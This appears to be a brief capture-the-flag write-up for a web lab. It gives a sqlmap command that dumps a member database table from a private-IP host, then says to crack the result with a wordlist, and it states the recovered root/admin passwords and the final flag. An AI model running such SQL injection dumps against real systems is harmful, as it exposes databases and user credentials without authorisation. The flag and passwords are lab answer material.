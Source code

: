 1. go to your pyhton terminal.
2. use "sqlmap.py -u "http://192.168.1.113/index.php?page=member&id=5&Submit=Submit#" --dump -D Member_Brute_Force -T db_default"
3. then use the default dictionary "wordlist.txt"
4. you will get the username and passwowrd. the two usernames you will recieve is "root" and "admin" both of their passwords are "shadow"
5. once you login you will get the flag "THE FLAG IS : B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2"